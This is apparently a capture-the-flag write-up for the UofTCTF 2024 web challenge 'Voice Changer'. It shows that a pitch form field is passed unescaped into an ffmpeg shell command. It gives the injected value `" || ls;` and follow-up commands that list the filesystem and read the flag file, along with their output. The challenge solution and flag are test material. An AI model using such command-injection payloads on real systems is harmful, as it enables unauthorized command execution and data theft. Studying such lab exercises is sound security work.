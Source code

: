 ```yaml
---
title: Voice Changer
date: 2024-01-15
tags: 
- web
- author-hartmannsyg
categories: UofTCTF 2024
---
```


solved by {% person hartmannsyg %}

We have a website where we can record our voice, set the pitch and upload it:
<img src="/static/UofTCTF2024/voice_changer.png" alt="" width="500"/>

When we upload a file, we make the following request (I viewed this in Burpsuite):

{% ccb lang:http %}
POST /upload HTTP/1.1
Host: uoftctf-voice-changer.chals.io
Content-Length: 3470
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXBAW2BbbaaD0A1NO
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://uoftctf-voice-changer.chals.io
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://uoftctf-voice-changer.chals.io/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
Connection: close

------WebKitFormBoundaryXBAW2BbbaaD0A1NO
Content-Disposition: form-data; name="pitch"

1
------WebKitFormBoundaryXBAW2BbbaaD0A1NO
Content-Disposition: form-data; name="input-file"; filename="recording.ogg"
Content-Type: audio/ogg

<audio binary>
{% endccb %}

It responds with:

{% ccb lang:bash wrapped:true terminal:true %}
$ ffmpeg -i "/app/upload/c4d99020-b367-11ee-a08f-779926f969c1.ogg" -y -af "asetrate=44100*1,aresample=44100,atempo=1/1" "/app/output/c4d99020-b367-11ee-a08f-779926f969c1.ogg"

ffmpeg version 6.1 Copyright (c) 2000-2023 the FFmpeg developers
  built with gcc 13.2.1 (Alpine 13.2.1_git20231014) 20231014
  ... a bunch more stuff
{% endccb %}

when we edit the pitch to something else, we see that the pitch gets reflected into the command. So if we set pitch to be `amogus`, it will run:

{% ccb html:true wrapped:true terminal:true %}
$ ffmpeg -i <span class="string">"/app/upload/8e958b80-b368-11ee-a08f-779926f969c1.ogg"</span> -y -af <span class="string">"asetrate=44100*<span class="number">amogus</span>,aresample=44100,atempo=1/<span class="number">amogus</span>"</span> <span class="string">"/app/output/8e958b80-b368-11ee-a08f-779926f969c1.ogg"</span>
{% endccb %}

So if we set pitch to be `" || ls;`

{% ccb html:true wrapped:true terminal:true %}
$ ffmpeg -i <span class="string">"/app/upload/8e958b80-b368-11ee-a08f-779926f969c1.ogg"</span> -y -af <span class="string">"asetrate=44100*<span class="code-segment-highlight">"</span></span><span class="code-segment-highlight"> || <span class="built_in">ls</span>;</span>,aresample=44100,atempo=1/<span class="string"><span class="code-segment-highlight">" || ls;</span>"</span> <span class="string">"/app/output/8e958b80-b368-11ee-a08f-779926f969c1.ogg"</span>

index.js
node_modules
output
package-lock.json
package.json
public
upload
yarn.

ffmpeg version 6.1 Copyright (c) 2000-2023 the FFmpeg developers
  ... a bunch more ffmpeg stuff
{% endccb %}

Nice, we basically got shell, now we just gotta find the flag, though its not in it's directory. Let's try `ls -l /`:

{% ccb terminal:true highlight:14 %}
drwxr-xr-x    1 root     root          4096 Jan 13 05:35 app
drwxr-xr-x    1 root     root          4096 Dec 11 18:37 bin
drwxr-xr-x    5 root     root           360 Jan 14 03:28 dev
drwxr-xr-x    1 root     root          4096 Jan 14 03:28 etc
drwxr-xr-x    1 root     root          4096 Jan 13 05:35 home
drwxr-xr-x    1 root     root          4096 Jan 10 21:25 lib
drwxr-xr-x    5 root     root          4096 Dec  7 09:43 media
drwxr-xr-x    2 root     root          4096 Dec  7 09:43 mnt
drwxr-xr-x    1 root     root          4096 Dec 11 18:37 opt
dr-xr-xr-x  391 nobody   nobody           0 Jan 14 03:28 proc
drwx------    1 root     root          4096 Dec 11 18:37 root
drwxr-xr-x    2 root     root          4096 Dec  7 09:43 run
drwxr-xr-x    1 root     root          4096 Jan 10 21:24 sbin
-rwxr-xr-x    1 root     root            31 Dec 31 04:31 secret.txt
drwxr-xr-x    2 root     root          4096 Dec  7 09:43 srv
dr-xr-xr-x   13 nobody   nobody           0 Jan 14 03:28 sys
drwxrwxrwt    1 root     root          4096 Dec 11 18:37 tmp
drwxr-xr-x    1 root     root          4096 Jan 10 21:25 usr
drwxr-xr-x    1 root     root          4096 Dec  7 09:43 var
{% endccb %}

now if we `cat /secret.txt`:

{% ccb terminal:true %}
uoftctf{Y0UR Pitch IS 70O H!9H}
{% endccb %}